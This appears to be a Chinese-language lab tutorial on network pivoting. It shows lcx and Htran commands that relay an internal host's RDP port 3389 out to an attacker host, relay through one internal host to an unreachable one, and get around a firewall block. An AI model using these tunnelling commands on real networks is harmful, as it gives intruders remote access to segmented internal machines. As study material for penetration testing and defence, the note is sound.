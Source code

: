 

环境：攻击机无法访问内网主机，但内网主机可以访问外网

IP:192.168.241.155 为内网主机

IP:192.168.1.104 为外网主机

内网主机执行:

```
lcx -slave [远程IP] [转发到的远程端口] [本机IP] [本机要转发的端口]
lcx -salve 192.168.1.104 4444 192.168.241.155 3389
```



外网主机执行

```
lcx -listen [监听的端口] [从接收到的数据的端口转发到另外一个端口]
lcx -listen 4444 5555
```



![](https://s2.ax1x.com/2019/09/18/nbS3z6.md.png)



![](https://s2.ax1x.com/2019/09/18/nbpMnS.png)



环境：攻击机可以直接访问到内网主机B，但是无法访问内网主机C

IP:192.168.241.155 为内网主机C

IP:192.168.241.129 为内网主机B

IP:192.168.1.104 为攻击机

在内网主机B执行

```
lcx -tran 4444 192.168.241.155 3389
```

在内网主机b连接本地的4444端口或公网访问192.168.241.129:4444

![](https://s2.ax1x.com/2019/09/19/nbCeL8.png)



环境：攻击者可以直接访问内网机器B，当防火墙禁止3389连接。内网机器B也可以访问外网

IP:192.168.69.41 攻击机

IP:192.168.69.43 内网机器B

在内网机器B执行

```
Htran.exe -tran 4444 127.0.0.1 3389
```
